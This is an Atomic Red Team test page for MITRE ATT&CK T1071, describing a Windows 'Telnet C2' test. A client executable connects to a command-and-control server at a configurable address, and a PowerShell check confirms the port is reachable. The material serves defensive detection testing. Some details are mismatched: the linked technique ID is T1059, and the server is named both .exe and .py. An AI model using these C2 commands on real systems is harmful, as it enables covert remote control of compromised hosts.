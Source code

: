 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---autoit)


<br/>

## Atomic Test #1 - Telnet C2
Establish connection between compromised client to C2 server via Telnet

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | localhost |
| server_port | C2 server port | number | 23 |
| client_path | Path to telnet agent | path | PathToAtomicsFolder\T1071\src\telnet_client.exe |


#### Attack Commands: Run with `powershell`! 


```cmd
.\#{client_path} #{server_ip} --port #{server_port}
```

#### Dependencies Run with `powershell`!:
Start C2 server with telnet_server.exe in src folder. You can either start it on localhost or other IP.

```powershell
.\telnet_server.py server_ip --port port_number
```

##### Description: C2 Server must be reachable.
##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}

if ($connection.TcpTestSucceeded) {
          Write-Output "Port #{server_port} is open."
          exit 0
} else {
          Write-Output "Port #{server_port} is closed or unreachable."
          exit 1
      }
```


<br/>
<br/>
